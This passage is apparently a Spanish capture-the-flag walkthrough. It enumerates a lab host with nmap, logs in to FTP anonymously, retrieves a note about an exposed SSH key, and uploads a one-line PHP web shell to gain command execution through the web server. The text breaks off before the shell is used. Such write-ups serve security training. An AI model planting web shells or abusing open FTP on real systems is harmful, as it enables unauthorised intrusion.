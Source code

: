 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```

Vemos varios puertos interesantes, entre ellos el `FTP` y el puerto `80`, vamos a probar a intentar meternos por el `FTP` de forma `anonima`.

## FTP

```shell
ftp anonymous@<IP>
```

Si dejamos la contraseña en blanco veremos que si nos deja y entraremos en el servidor de `FTP`, si listamos el contenido veremos lo siguiente:

```
229 Entering Extended Passive Mode (|||46130|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Sep 30  2020 .
drwxr-xr-x    3 0        113          4096 Sep 30  2020 ..
drwxrwxr-x    2 0        113          4096 Sep 30  2020 .web
-rw-r--r--    1 0        0               0 Sep 30  2020 index.html
226 Directory send OK.
```

Vemos ya una idea de lo que puede ser, si nos pasamos el primer `index.html` veremos que esta vacio, pero si entramos a `.web/` veremos otro `index.html` que si nos lo pasamos a nuestro `host`:

```shell
cd .web/
get index.html
```

Info:

```
alexia, Your id_rsa is exposed, please move it!!!!!
Im fighting regarding reverse shells!
-nobody
```

Y vemos que contiene, veremos el mismo texto que en la pagina web del puerto `80`, por lo que se nos ocurre subir un archivo `.php` para generarnos una `reverse shell`:

> webshell.php

```php
<?php system($_GET['cmd']); ?>
```

Ahora vamos a subir este archivo a la carpeta `.web/` del servidor `FTP` de la siguiente forma:

```shell
put webshell.php
```

Si nos vamos a la pagina web del puerto `80` y ponemos lo siguiente para probar:
